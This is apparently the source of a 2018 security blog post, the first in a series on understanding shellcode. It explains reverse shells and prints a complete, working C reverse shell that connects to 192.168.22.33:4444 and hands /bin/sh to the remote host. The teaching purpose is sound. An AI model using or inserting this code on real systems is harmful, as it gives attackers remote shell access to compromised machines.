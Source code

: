 ```yaml
---
layout: post
title: "Understanding Shellcode: The Reverse Shell"
category: Security
date: 2018-10-30
series: "Understanding Shellcode"
tags:
  - Shellcode
  - Security
---
```

A recent conversation with a coworker inspired me to start putting
together a series of blog posts to examine what it is that shellcode does.  In
the first installment, I'll dissect the basic reverse shell.

First, a couple of reminders: shellcode is the machine code that is injected
into the flow of a program as the result of an exploit.  It generally must be
position independent as you can't usually control where it will be loaded in
memory.  A reverse shell initiates a TCP connection from the compromised host
back to a host under the control of the attacker.  It then launches a shell with
which the attacker can interact.

<!--more-->

## Reverse Shell in C ##

```
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>

void reverse_shell() {
  /* Allocate a socket for IPv4/TCP */
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  /* Setup the connection structure. */
  struct sockaddr_in sin;
  sin.sin_family = AF_INET;
  sin.sin_port = htons(4444);
  /* Parse the IP address */
  inet_pton(AF_INET, "192.168.22.33", &sin.sin_addr.s_addr);
  /* Connect to the remote host */
  connect(sock, (struct sockaddr *)&sin, sizeof(struct sockaddr_in));
  /* Duplicate the socket to STDIO */
  dup2(sock, STDIN_FILENO);
  dup2(sock, STDOUT_FILENO);
  dup2(sock, STDERR_FILENO);
  /* Setup and execute a shell. */
  char *argv[] = {"/bin/sh", NULL};
  execve("/bin/sh", argv, NULL);
}
```
